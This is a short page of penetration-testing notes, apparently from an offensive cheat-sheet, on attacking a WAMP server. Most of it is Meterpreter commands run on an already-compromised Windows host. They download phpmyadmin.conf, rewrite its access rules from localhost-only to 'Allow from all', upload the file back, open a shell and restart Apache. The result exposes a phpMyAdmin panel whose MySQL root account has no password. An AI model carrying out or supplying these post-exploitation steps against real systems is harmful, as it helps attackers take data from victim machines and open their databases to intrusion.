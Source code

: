 # WAMP

- See also [MySQL](./MySQL.md).

- Modify phpmyadmin.conf to allow remote access.
```
meterpreter > cd C:\\wamp\\alias\\
meterpreter > dir
meterpreter > download C:\\wamp\\alias\\phpmyadmin.conf

Edit ACL:

<Directory "c:/wamp/apps/phpmyadmin3.4.10.1/">
    Options Indexes FollowSymLinks MultiViews
    AllowOverride all
        Order Deny,Allow --> Delete
        Deny from all --> Delete
        Allow from 127.0.0.1 --> Allow from all
</Directory>

meterpreter > upload ~/phpmyadmin.conf
meterpreter > cat phpmyadmin.conf
meterpreter > shell

net stop wampapache
net start wampapache
```

- There is no such thing as a phpMyAdmin user. phpMyAdmin is a front-end for MySQL, so we're talking about MySQL users.
```
http://<ip>:8585/phpmyadmin

Your configuration file contains settings (root with no password) that correspond to the default MySQL privileged account. Your MySQL server is running with this default, is open to intrusion, and you really should fix this security hole by setting a password for user 'root'.
```
